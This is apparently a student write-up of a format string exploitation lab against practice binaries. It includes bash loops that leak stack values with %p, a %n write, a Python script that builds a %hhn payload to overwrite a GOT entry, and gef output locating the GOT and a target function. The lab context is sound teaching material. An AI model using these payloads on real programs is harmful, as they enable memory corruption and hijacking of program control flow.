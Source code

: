 # 1 Getting the basics 
### 1- 
the code should output `c AAAA 0x0000000a AAAA` Value = 23
### 2-

#  2 Practicing Format String Exploitation

1. `./vulnerable-1-32 "%x  32 fois"`
2. 
```bash
for i in $(seq 250); do
echo -n "$i: ";
./vulnerable-1-32 "$(echo -e "AAAABBB%64x%$i\$p")";
done

```

we added the BBB as padding to have our AAAA aligned in memory.
3.
```bash
#!/bin/sh  
for i in $(seq 250); do  
       echo -n "$i: ";  
       echo -e "AAAA%64x%$i\$p" | ./vulnerable-2-32  
done
```
`echo -e "\xcc\xb2\x04\x08%60x%7\$n" | ./vulnerable-2-32`
4.
```python

#!/usr/bin/env python 
import struct
import sys 
adr = 0x804b2f8 
p = struct.pack("I", adr) 
p += struct.pack("I", adr + 1) 
p += struct.pack("I", adr + 2) 
p += struct.pack("I", adr + 3) 
p += b"%1521x%26$hhn"
p += b"%1793x%25$hhn"
p += b"%83x%24$hhn" 
p += b"%1519x%23$hhn"
sys.stdout.buffer.write(p)
```
5.
```
gef➤  info variables _GLOBAL_OFFSET_TABLE_  
All variables matching regular expression "_GLOBAL_OFFSET_TABLE_":  
  
Non-debugging symbols:  
0x0804b2a0  _GLOBAL_OFFSET_TABLE_
gef➤  x/10gx 0x0804b2a0  
0x804b2a0:      0x000000000804b1a8      0xf7d6b39000000000  
0x804b2b0 <printf@got.plt>:     0xf7e33c60f7da1eb0      0xf7dc61a0f7dc4000  
0x804b2c0 <exit@got.plt>:       0x00000000f7d850c0      0x00000000f7e84740
gef➤  p bar  
$1 = {void (void)} 0x80491a6 <bar>
```
